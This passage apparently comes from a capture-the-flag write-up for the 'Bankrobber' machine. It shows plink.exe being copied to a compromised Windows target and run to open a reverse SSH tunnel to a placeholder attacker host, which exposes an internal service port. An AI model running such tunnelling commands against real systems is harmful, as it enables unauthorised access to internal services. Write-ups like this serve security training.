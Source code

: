```bash
find / -iname plink.exe 2>/dev/null
```

Copy the binary to the SMB share folder being used by `smbserver` and copy it over to the target machine using `robocopy.exe`:

- `robocopy.exe` documentation: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy

![robocopy](./bankrobber/robocopy.png)

Now execute it. This command will SSH to the `<attacker-ip>` as `<user>` with a password of `<password>` and open port 5555 that will be fowarded to 127.0.0.1:910 on the target machine:

- When running `plink.exe` for the first time, the binary will hang and ask "Store key in cache? (y/n)". So a pipe of the character `y` is used to bypass this

- **NOTE:** If you get the following error, download the newer version of plink from here: https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe

  > FATAL ERROR: Couldn't agree a key exchange algorithm (available: curve25519-sha256,curve25519-sha256@libssh.org,ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group16-sha512,diffie-hellman-group18-sha512,diffie-hellman-group14-sha256)

```visual basic
cmd.exe /c echo y | %TEMP%\plink.exe -ssh -l <user> -pw <password> -R <attacker-ip>:5555:127.0.0.1:910 <attacker-ip>
```

After this, the local port 5555 will connect to the `bankv2.exe` binary:
